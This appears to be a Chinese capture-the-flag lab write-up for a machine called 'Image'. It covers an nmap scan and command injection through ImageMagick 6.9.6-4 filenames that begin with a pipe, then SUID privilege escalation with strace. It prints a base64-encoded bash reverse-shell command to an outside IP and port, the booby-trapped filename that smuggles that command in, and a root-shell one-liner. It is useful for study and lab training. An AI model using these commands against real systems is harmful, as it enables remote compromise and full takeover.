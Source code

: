 ```yaml
---
description: 中等 / ImageMagick 6.9.6-4 / shell命令注入 / SUID提权
---
```


# ✔️ Image

## 建立立足点

### 信息收集

* 使用Nmap对目标系统的开放端口进行扫描：

```bash
nmap -sC -sV -p- -oA image 192.168.210.178 --open
```

<figure><img src="../.gitbook/assets/1 (27).png" alt=""><figcaption></figcaption></figure>

* 首先查看80端口的Web页面进行检查，是一个有上传功能的界面，猜测可能是一个文件上传漏洞：

<figure><img src="../.gitbook/assets/2 (27).png" alt=""><figcaption></figcaption></figure>

* 根据尝试上传图片的返回信息，目标系统只接受后缀为JPEG和PNG格式的图片文件：

<figure><img src="../.gitbook/assets/3 (23).png" alt=""><figcaption></figcaption></figure>

* 上传成功一个测试图片后，发现返回了当前正在运行的ImageMagick的版本号：6.9.6-4

<figure><img src="../.gitbook/assets/4 (26).png" alt=""><figcaption></figcaption></figure>

### 漏洞查阅

* 搜索公开已知的漏洞发现有一个命令注入的漏洞：

<figure><img src="../.gitbook/assets/5 (27).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据漏洞描述，得知打开任何以管道符（|）字符开头的图像文件时，ImageMagick将执行文件名剩余部分的命令，这意味着构建一个以管道符开头且包含反弹shell的图片文件名后，再次上传即图片可触发该漏洞：

<figure><img src="../.gitbook/assets/6 (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/7 (26).png" alt=""><figcaption></figcaption></figure>

```bash
# 构建过程
cp test.png '|test.png'
echo -n 'bash -i >& /dev/tcp/192.168.45.234/4444 0>&1' | base64
cp test.png '|test"`echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjQ1LjIzNC80NDQ0IDA+JjE=| base64 -d | bash`".png'
```

<figure><img src="../.gitbook/assets/8 (26).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/9 (25).png" alt=""><figcaption></figcaption></figure>

### GET SHELL

* 本机做好监听即可成功获取到shell：

<figure><img src="../.gitbook/assets/10 (27).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/11 (26).png" alt=""><figcaption></figcaption></figure>

## 权限提升

### 本地信息收集

* 简单手动枚举一下：

```bash
find / -perm -u=s -type f 2>/dev/null
```

<figure><img src="../.gitbook/assets/12 (25).png" alt=""><figcaption></figcaption></figure>

### 漏洞利用

* 根据枚举结果发现有很多文件设置了SUID位，运气很好，第一个strace就在GTFOBins中找到了对应可以提权的命令：

<figure><img src="../.gitbook/assets/13 (25).png" alt=""><figcaption></figcaption></figure>

### ROOT

* 直接使用该命令提权成功，ROOT!

```bash
strace -o /dev/null /bin/sh -p
```

<figure><img src="../.gitbook/assets/14 (24).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/15 (22).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/16 (21).png" alt=""><figcaption></figcaption></figure>

{% hint style="info" %}
本例属于简单级别的机器，端口开放的少，不用太多枚举就能锁定漏洞，构建文件名需要多次尝试但其利用过程简单。提权过程也很简单，常规的手动枚举即可找到可以利用的点。
{% endhint %}

